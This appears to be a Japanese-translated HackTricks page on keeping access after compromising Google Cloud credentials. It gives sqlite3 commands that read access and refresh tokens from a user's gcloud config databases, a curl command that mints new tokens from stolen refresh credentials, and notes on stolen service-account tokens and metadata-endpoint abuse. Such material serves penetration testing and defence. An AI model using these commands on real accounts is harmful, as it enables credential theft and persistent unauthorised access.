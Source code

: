 # GCP - 非svc永続性

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でゼロからヒーローまでのAWSハッキングを学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

これらは、何らかの方法でGCPの資格情報やGCP環境で動作しているマシンを侵害した後に役立つテクニックです。

## トークンハイジャック

### 認証済みユーザー

GCPの**認証済みユーザー**のホームフォルダにアクセスできた場合、**デフォルト**では、認証を必要とせず、使用するマシンに依存せず、ユーザーがMFAを設定していても、そのユーザーの**トークンを好きなだけ取得できます**。

これは、デフォルトでは、新しいトークンを生成するために**リフレッシュトークンを好きなだけ使用できる**からです。

ユーザーの現在のトークンを取得するには、次のコマンドを実行します：

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
```
gcloud auth print-access-token
```
{% endcode %}

新しいアクセストークンを生成するための詳細を取得するには、以下を実行します:

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
```
新しいアクセストークンをリフレッシュトークン、クライアントID、クライアントシークレットを使用して取得するには、以下を実行します:
```

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

リフレッシュトークンの有効期限は、**Admin** > **Security** > **Google Cloud session control**で管理でき、デフォルトでは16時間に設定されていますが、期限切れにしない設定も可能です：

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### サービスアカウント

認証されたユーザーと同様に、サービスアカウントのプライベートキーファイルを**侵害する**ことができれば、通常は**好きなだけアクセスできます**。\
しかし、サービスアカウントの**OAuthトークン**を盗むと、さらに興味深いことが起こります。デフォルトではこれらのトークンは1時間だけ有効ですが、**被害者がプライベートAPIキーを削除しても、OAuthトークンは有効期限が切れるまで有効です**。

### メタデータ

明らかに、GCP環境で動作しているマシン内にいる限り、メタデータエンドポイントに接触してそのマシンに添付されたサービスアカウントに**アクセスできます**（このエンドポイントでアクセスできるOAuthトークンは通常、スコープによって制限されています）。

### 対策

これらの技術に対するいくつかの対策は、[https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)で説明されています。

## 参考文献

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
